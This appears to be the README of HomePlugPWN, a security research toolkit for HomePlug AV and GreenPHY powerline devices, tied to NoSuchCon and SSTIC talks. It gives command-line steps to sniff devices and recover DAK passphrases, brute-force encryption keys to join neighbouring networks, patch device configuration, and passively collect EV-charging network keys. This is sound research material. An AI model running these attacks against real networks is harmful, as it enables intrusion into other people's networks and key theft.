 HomePlugPWN
===========

- HomePlugAV PLC tools presented at NoSuchCon 2014: http://www.nosuchcon.org/talks/2014/D1_03_Sebastien_Dudek_HomePlugAV_PLC.pdf
- Tools on HomePlug GreenPHY have been presented during SSTIC 2019 about V2G Attacks : https://www.sstic.org/media/SSTIC2019/SSTIC-actes/v2g_injector_playing_with_electric_cars_and_chargi/SSTIC2019-Article-v2g_injector_playing_with_electric_cars_and_charging_stations_via_powerline-dudek.pdf

## Requirements 
- Python >= 3.x
- Scapy v2.x
- Promiscous mode for Sniff Indicate packets

## Tools

- HomeplugAV.py scapy Layer: create and craft your own HomePlugAV packets
- discover.py: sends 'GetDeviceTypeRequest' in broadcast to discover PLCs of the same AVLN
- genDAK.py: derives MAC address to get a Qualcomm DAK passhrase
- PBKDF1.py: hashes the DAK or NMK passhrase using the PBKDF1
- quickKODAK.py: performs a KODAK bruteforce on powerline
- plcmon.py: enables 'Sniffer mode' and uses Sniffer Indicate packet to retrieve CCos MAC address
- PIBdump.py: dumps your entire PLC configure (PIB) into a file
- patchPIB.py: patch arbitrary bytes of your PLC, or a field between bytes 0x0-0x400 (see the details of ModulePIB conditions in the Scapy layer). 
- HPGPKeysCollect.py: parse HPGP messages and collect keys

## Efficient remote attack quick guide

First we plug our device to the powerline and sniff for every possible CCo:

```bash
python3 plcmon.py 
[+] Enabling sniff mode
Sent 1 packets.
[+] Listening for CCo station...
	 Found CCo: 44:94:fc:56:ff:34 (DAK: RMHT-ILPO-TYMN-IIXY)
         [...]
```

The tool recovers also the DAK passphrase directly. 

Too change the NMK of the CCos to have a chance to connect to neighbor(s) LAN, we can send the SetEncryptionKeyRequest to the CCos:

```bash
python3 quickKODAK.py -i eth0 -t 4494fc56ff34
Sent 1 packets.
``` 

If you want to reconfigure all device, skip 2-3 of the MAC address found previously as follows:

```bash
python3 quickKODAK.py -i eth0 -t 4494fc56
Sent 1 packets.
```

This will bruteforce the 2 last bytes, generating a new DAK and sending it in broadcast for every combinaison.

## Dump the entire PIB

The following tool aims to dump the entire PIB. You could also use the same techniques to dump the NVM or the Soft-Bootloader...

To process the dump use it as follows:

```bash
python3 ./PIBdump.py -i enp0s26u1u1 -o mycpl.pib
[...]
[+] PIB dump: Success!
```

A file containing your PLC Programmable Information Blocks (PIB) should be created as follows:

```bash
wc -c mycpl.pib 
16440 mycpl.pib
```

## Patch your PIB

If you want to change your MAC address for example, you can specify the Scapy attribute to modify and its new value:

```bash
python3 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -t "PIBMACAddr" -v "c0:ff:ee:c0:ff:ee"
```

The MAC address should be changed after that for your targeted device. But if the addresses are read-only for this device, you have to hack a little bit to reflash it correctly.

Nevertheless, if you want to change any arbitrary byte use this command as follows:

```bash
 python3 patchPIB.py -i enp0s26u1u1 -d <dest. MAC addr> -a <start_addr>:<len> -v <value>
```

Like this, you can rewrite the tone map and any other field of your choice ;)

## Collecting HomePlug GreenPHY keys from SLAC procedure

The standard is vulnerable to passive attack, letting an attacker to collect keys during a SLAC procedure.

The tool `HPGPKeysCollect.py` implements the passive attack to collect keys from a capture, or by sniffing the local PLC interface as follows:

```bash
python3 HPGPKeysCollect.py -i eth0
[...]
Sniffing on interface 'eth0'
[...]
[+] New keys collected for NetID ('\x45\x00\x23\x34\x76\x34\x01')
{'EVID': '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xcc',
 'EVSEID': '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00',
 'NMK': 'YT\xe2\x1e\x45\xf4\x23\x00E\x34\x45\xe7\xc2\x34',
 'RunID': '\x12BA\xee\xff\xe1\x36\x09'}
```

Please note that at least byte `0x1653` of the PLC should be set to '1' to get it work.

## Licence

HomePlugPWN tools including the HomePlugAV scapy Layer are under the **GPLv2**

## Problems?

- Give us your feedback ;)

## Acknowledgements

* Xavier Carcelle for his book (Power Line Communications in Practice), and his Framework FAIFA
* Ben Tasker for finding CCos MAC addresses in Sniff Indicate packets
* Open-PLC-Utils : https://github.com/qca/open-plc-utils
* Netgear and TP-Link utilities
* Homeplug AV and IEEE 1901: A Handbook for PLC Designers and Users
